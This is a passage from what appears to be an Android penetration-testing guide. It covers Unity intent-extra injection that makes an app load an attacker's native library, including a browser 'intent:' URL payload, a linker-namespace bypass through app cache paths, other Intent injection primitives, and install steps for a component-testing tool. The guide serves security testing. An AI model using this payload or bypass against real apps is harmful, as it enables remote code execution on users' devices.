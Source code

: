 Notes
- The exact `/data/app/...` path varies across devices/installs. An attacker app can retrieve its own native lib dir at runtime via `getApplicationInfo().nativeLibraryDir` and communicate it to the trigger.
- The file need not end with `.so` if it is a valid ELF – `dlopen()` cares about ELF headers, not extensions.

Remote one‑click via browser (conditional)
If the Unity entry activity is exported with `BROWSABLE`, a website can pass extras via an `intent:` URL:
```text
intent:#Intent;package=com.example.unitygame;scheme=whatever;\
S.unity=-xrsdk-pre-init-library%20/data/local/tmp/malicious.so;end;
```
However, on modern Android the dynamic linker namespaces and SELinux block loading from many public paths (e.g., `/sdcard/Download`). You’ll see errors like:
```
library "/sdcard/Download/libtest.so" ("/storage/emulated/0/Download/libtest.so") needed
or dlopened by "/data/app/.../lib/arm64/libunity.so" is not accessible for the
namespace: [name="clns-...", ... permitted_paths="/data:/mnt/expand:/data/data/com.example.unitygame"]
```
Bypass strategy: target apps that cache attacker-controlled bytes under their private storage (e.g., HTTP caches). Because permitted paths include `/data` and the app’s private dir, pointing `-xrsdk-pre-init-library` at an absolute path inside the app’s cache can satisfy linker constraints and yield code execution. This mirrors prior cache-to-ELF RCE patterns experienced in other Android apps.


## Other classic Intent injection primitives

- startActivity/sendBroadcast using attacker-supplied `Intent` extras that are later re-parsed (`Intent.parseUri(...)`) and executed.
- Exported proxy components that forward Intents to non-exported sensitive components without permission checks.

---

## Automating exported-component testing (Smali-driven ADB generation)

When exported components expect specific extras, guessing payload shape causes time waste and false negatives. You can automate discovery of keys/types directly from Smali and emit ready-to-run adb commands.

Tool: APK Components Inspector
- Repo: https://github.com/thecybersandeep/apk-components-inspector
- Approach: decompile and scan Smali for calls like `getStringExtra("key")`, `getIntExtra("id", ...)`, `getParcelableExtra("redirect_intent")`, `getSerializableExtra(...)`, `getBooleanExtra(...)`, `getAction()`, `getData()` to infer which extras and fields are consumed by each component.
- Output: for every exported Activity/Service/Receiver/Provider, the tool prints a short explanation and the exact `adb shell am ...`/`cmd content ...` command with correctly typed flags.

Install
```bash
git clone https://github.com/thecybersandeep/apk-components-inspector
cd apk-components-inspector
python3 -m venv venv && source venv/bin/activate
pip install androguard==3.3.5 rich
```
